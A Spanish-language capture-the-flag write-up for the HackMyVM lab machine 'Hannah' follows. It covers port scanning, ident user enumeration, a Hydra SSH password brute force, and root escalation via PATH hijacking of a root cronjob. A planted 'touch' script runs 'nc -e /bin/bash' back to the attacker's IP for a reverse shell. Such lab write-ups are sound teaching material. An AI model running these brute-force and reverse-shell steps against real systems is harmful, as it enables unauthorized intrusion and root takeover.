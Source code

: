 ```yaml
---
layout: post
title: Hannah - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/hannah/hannah.png#center)

## Reconocimiento

Comienzo con una enumeración básica utilizando nmap.

```
sudo nmap -p- 192.168.1.63 
[sudo] contraseña para user: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-05 22:37 UTC
Nmap scan report for 192.168.1.63
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
113/tcp open  ident
MAC Address: 08:00:27:2A:54:DF (Oracle VirtualBox virtual NIC)
```

### 113 (ident)

Enumero el puerto 113 con [Ident User Enum](https://github.com/pentestmonkey/ident-user-enum) y tras probar con todos los puertos disponibles, solo el puerto 80 ofrece un usuario diferente a root.

```
ident-user-enum git:(master) ./ident-user-enum.pl 192.168.1.63 80
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.1.63:80 moksha
```

## Explotación

Una vez conocido un usuario, realizo un ataque de fuerza bruta para intentar conseguir su contraseña.

```
hydra -l moksha -P /usr/share/seclists/Passwords/rockyou.txt 192.168.1.63 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-05 22:38:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.1.63:22/
[22][ssh] host: 192.168.1.63   login: moksha   password: h*****
1 of 1 target successfully completed, 1 valid password found
```

Contraseña encontrada!!

## Escalado de privilegios

Utilizo ssh para iniciar sesión en la máquina. Una vez dentro descubro que cada minuto se ejecuta un cronjob en el cual el usuario root crea un fichero en /tmp.

```
moksha@hannah:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
* * * * * root touch /tmp/enlIghtenment
[...]
```

Tambien se puede ver que tengo permisos de escritura en /media y este directorio se encuentra en el PATH de root.
```
ls -la /
total 68
drwxr-xr-x  18 root root  4096 ene  4 10:47 .
drwxr-xr-x  18 root root  4096 ene  4 10:47 ..
[...]
drwxrwxrwx   3 root root  4096 ene  5 10:52 media
[...]
```

De esta forma, para conseguir acceso como el usuario root realizo un ataque de "path hijacking" dado que no se especifica la ruta completa del comando "touch" y el directorio "/media" se encuentra antes que "/usr/bin" que es donde está "touch".

```
$ touch /media/touch
$ chmod +x /media/touch
$ cat /media/touch 
#!/bin/bash
nc -e /bin/bash 192.168.1.79 1234

$ :)
```

Una vez se ejecute el cronjob, obtengo una conexión como el usuario root.

```
$ nc -lvnp 1234
Connection from 192.168.1.63:60164
root@hannah:~# :)
```

Muchas gracias  **Sml** por esta máquina.
